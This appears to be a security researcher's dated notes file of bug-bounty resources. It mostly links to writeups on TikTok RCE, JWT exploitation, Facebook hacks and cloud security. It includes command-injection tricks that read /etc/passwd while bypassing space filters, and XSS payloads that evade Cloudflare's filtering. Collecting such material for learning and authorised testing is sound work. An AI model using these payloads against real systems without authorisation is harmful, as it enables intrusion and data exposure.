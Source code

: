 # 📅 18-Mar-2021
## php Image payload generator
- https://imagepayload.jc01.ninja/

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 76
- [Kubernetes Security - Attacking and Defending K8s Clusters](https://twitter.com/harshbothra_/status/1372185483564912641?s=20)

## Tiktok RCE
- https://medium.com/@dPhoeniixx/tiktok-for-android-1-click-rce-240266e78105

## Secret Trick to bypass space
```sh
cat</etc/passwd
{cat,/etc/passwd}
cat$IFS/etc/passwd
```
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

## Exploiting JSON Web Tokens
- https://medium.com/@sajan.dhakate/exploiting-json-web-token-jwt-73d172b5bc02

## Redirection check tool
- https://github.com/redcode-labs/UnChain.git

## Facebook Hack 
- https://infosecwriteups.com/how-i-hacked-facebook-part-one-282bbb125a5d
- https://alaa0x2.medium.com/how-i-hacked-facebook-part-two-ffab96d57b19

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 77
- [AWS Cloud Security](https://twitter.com/harshbothra_/status/1372607627297878016?s=20)


# 📅 20-Mar-2021
## Cloudflare XSS Bypass
1. Bypass cloudflare with incorrect url encoding
`<script>alert()</script>` blocked `%2sscript%2ualert()%2s/script%2u` -xss popup
2. XSS Popup
```js
<svg onload=alert%26%230000000040"1")>
```
